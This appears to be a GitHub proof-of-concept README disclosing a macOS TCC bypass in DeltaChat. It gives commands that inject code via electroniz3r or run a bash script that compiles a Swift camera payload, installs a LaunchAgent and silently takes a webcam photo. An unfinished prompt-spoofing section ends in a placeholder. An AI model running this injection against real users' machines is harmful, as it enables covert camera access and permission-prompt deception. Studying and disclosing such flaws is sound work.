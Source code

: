 # Exploitation

Showing a few ways to exploit this vulnerability, also showing a "new" vulnerability/technique with TCC that _can_ be useful for tricking a user for more TCC rights, e.g. full disk access or any other TCC rights. 

>**Note:** When running this proof-of-concept, the Terminal app does not need a prompt for camera access. This is because the camera permission is granted to DeltaChat, and the injected code inherits those permissions, effectively bypassing macOS TCC restrictions.

### Automated 

Run the following from Terminal using [electroniz3r](https://github.com/r3ggi/electroniz3r)

```sh
electroniz3r inject /Applications/DeltaChat.app/ --predefined-script takeSelfie
```

Sample output:
```sh
/Applications/DeltaChat.app/ started the debug WebSocket server
The webSocketDebuggerUrl is: ws://127.0.0.1:13337/56264727-4473-4393-b712-7e24c65a1c71
Check /tmp/selfie.jpg
```

Confirm the result by running:
```sh
open /tmp/selfie.jpg
```

<img width="1502" height="470" alt="poc-delta" src="https://github.com/user-attachments/assets/6bcc6604-8707-4924-89c8-2d8985aab39e" />

A picture is taken using the system webcam, without Terminal having any camera access this demonstrates a successful TCC bypass.

### Manual 

Clone the repository and then execute the bash script, the bash script autoexploits the TCC Bypass, creating a selfie without triggering a new TCC prompt.
```sh
bash deltachat_camera_bypass.sh
# or
chmod +x deltachat_camera_bypass.sh && ./deltachat_camera_bypass.sh
```

Example output:
```sh
kunpeeks@MacBook-Pro-van-Kun 1 % ./deltachat_camera_bypass.sh
[*] Step 1: Write Swift camera payload to /tmp/selfie_payload.swift
[*] Step 2: Compile Swift payload to /Users/kunpeeks/Desktop/selfie
[*] Step 3: Create LaunchAgent plist at /Users/kunpeeks/Library/LaunchAgents/com.deltachat.tcc.camera.plist
[*] Step 4: Load LaunchAgent and trigger DeltaChat
[*] Waiting 5 seconds for selfie to complete...
[*] Checking selfie result:
[+] Selfie saved at /tmp/selfie.jpg
```


### Prompt Spoofing

This payload triggers a macOS TCC prompt for disk access. But instead of showing the request as coming from the Terminal (which executed the code), the system displays:

TODO: xxx


